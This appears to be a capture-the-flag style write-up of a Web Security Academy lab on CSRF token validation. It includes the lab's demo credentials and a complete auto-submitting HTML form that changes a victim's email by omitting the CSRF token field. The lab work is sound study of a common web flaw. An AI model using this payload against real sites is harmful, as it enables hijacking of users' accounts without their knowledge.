




# Lab: CSRF where token validation depends on token being present
This lab's email change functionality is vulnerable to CSRF.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter

# Solution
Start by logging in with the provided credentials so see the change-email form and it's HTML.  






We uses this form and it's action and endpoint. Adding a script tag with a JavaScript snippet for submitting the form directly. And as the title hints we remove the csrf (token) input field so that it doesn't become a parameter added to the body.   
```html
<html>
<body>
    <form class="login-form" name="change-email-form" action="https://0a85004b03f4098c80d1718300fc00d2.web-security-academy.net/my-account/change-email" method="POST">
        <label>Email</label>
        <input required type="email" name="email" value="evil@pwned.com">
        <button class='button' type='submit'> Update email </button>
    </form>
		<script>
			document.forms[0].submit()
		</script>
</body>
</html>
```


Testing the attack on our self.  



And finally deliver the exploit to our victim.  
